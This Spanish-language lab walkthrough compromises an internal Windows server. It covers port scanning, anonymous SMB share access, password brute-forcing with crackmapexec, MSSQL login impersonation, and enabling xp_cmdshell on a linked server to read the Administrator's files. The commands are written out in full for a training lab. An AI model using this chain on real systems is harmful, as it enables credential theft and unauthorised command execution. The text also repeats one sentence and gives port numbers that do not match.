





Laboratorio de Ataques a Servicios Comunes - Díficil
Enunciado
El tercer servidor es otro servidor interno que se utiliza para gestionar archivos y material de trabajo, como formularios. Además, se utiliza una base de datos en el servidor, cuya finalidad desconocemos.
Enumeración de puertos
Iniciamos la enumeración de servicios para identificar los puertos y protocolos activos en la máquina objetivo. Este escaneo se va a demorar un poco.
nmap -sS -p- --min-rate 1000 -n -Pn <IP>
 Vemos que tenemos los puertos 135, 445, 1433 y 3398 abiertos, vamos a recoger más información de los servicios que hay corriendo en cada puerto.
Vemos que tenemos los puertos 135, 445, 1433 y 3398 abiertos, vamos a recoger más información de los servicios que hay corriendo en cada puerto.
nmap -sCV -p135,445,1433,3389 -n -Pn <IP>
 
Vemos con la información que tenemos que es un servidor Windows, estan corriendo un smb por el puerto 445, una base de datos Microsoft por el 1433 y un rdp por el 3389. Vamos a empezar por el 445 dado que no tenemos credenciales ni nada para intentar acceder a los otros servicios y vemos lo siguiente.
smbclient -L //<IP>/ -N
 Vemos un Directorio Home al cual nos conectamos anónimo.
Vemos un Directorio Home al cual nos conectamos anónimo.
smbclient //10.129.203.10/Home -N

Donde hay varias carpetas y archivos accedemos y descargamos todos los recursos para mirarlos en local.
Y vemos que los archivos creds, secret y random son posibles contraseñas. Recordemos que vimos recién carpetas de posibles usuarios con Fiona, John y Simon.

Hacemos un poco de fuerza bruta con uno de los servicios que tenemos expuestos para capturar la siguiente flag que son las credenciales de fiona:
crackmapexec smb 10.129.203.10 -u fiona -p creds.txt

Ahora que tenemos credenciales válidas intentamos acceder a alguno de los servicios que tenemos alcance y vemos que en la BD podemos entrar:
python3 /.../python3-impacket/examples/mssqlclient.py fiona@<IP> -windows-auth

Estamos dentro de la Base de datos y vamos a guiarnos por las pistas que nos dieron anteriormente de revisar la base de datos, ver los servidores de enlace y simular la impersonation.
Intentamos con el usuario fiona acceder al servidor local de enlace, pero me da que el usuario no tiene permisos. Entonces intentamos suplantar a los usuarios jonn o simon, vemos que simon no existe pero john si.
EXECUTE AS LOGIN = 'john';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');

EXEC sp_linkedservers;

EXECUTE('SELECT SYSTEM_USER, IS_SRVROLEMEMBER(''sysadmin'')') AT [local.test.linked.srv];
Vemos que este usuario pertenece al grupo sysadmin dentro del servidor de enlace local.

EXECUTE('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [local.test.linked.srv];EXECUTE('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [local.test.linked.srv];
Habilitamos la función xp_cmdshell para poder ejecutar comandos en el servidor.

EXECUTE('EXEC xp_cmdshell ''dir "C:\Users\Administrator\Desktop"''') AT [local.test.linked.srv];
Listamos el escritorio del usuario Administrator y vemos la flag.

EXECUTE('EXEC xp_cmdshell ''type "C:\Users\Administrator\Desktop\flag.txt"''') AT [local.test.linked.srv];
Leemos el archivo

Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías